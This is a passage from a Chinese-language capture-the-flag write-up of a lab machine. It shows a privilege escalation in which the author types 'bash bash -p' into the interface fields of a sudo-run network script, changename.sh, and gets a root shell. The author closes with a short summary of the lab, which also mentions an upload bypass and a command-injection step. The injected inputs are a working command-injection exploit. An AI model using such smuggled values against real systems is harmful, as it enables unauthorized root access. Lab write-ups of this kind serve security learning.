 /sbin/ifup guly0

```

尝试执行上面的脚本，它要求输入4个参数
```
sh-4.2$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
bash -p
bash -p
interface PROXY_METHOD:
id
id
interface BROWSER_ONLY:
whoami
whoami
interface BOOTPROTO:
bash
bash
/etc/sysconfig/network-scripts/ifcfg-guly: line 4: -p: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 4: -p: command not found
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.

```

我们看到有三行报错，其中```-p```显示```command not found```，这一个字符被当成了命令执行，我们再次构造输入命令
```
sh-4.2$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
bash bash -p
bash bash -p
interface PROXY_METHOD:
bash bash -p
bash bash -p
interface BROWSER_ONLY:
bash bash -p
bash bash -p
interface BOOTPROTO:
bash bash -p
bash bash -p
[root@networked network-scripts]# id
id
uid=0(root) gid=0(root) groups=0(root)

```

把```-p```的位置变成了```bash -p```成功提权到了root
我没太明白这个脚本是怎么回事，猜测是把我们的输入当成了命令执行

# 总结
很简单的靶机，基本上是白盒测试。上传漏洞要综合考虑apache版本，通过阅读源代码构造绕过限制的payload。Know it then Hack it。两次提权都是通过命令注入，提权到root通过观察报错信息猜测我们的输入被当成了命令执行，从而成功提权。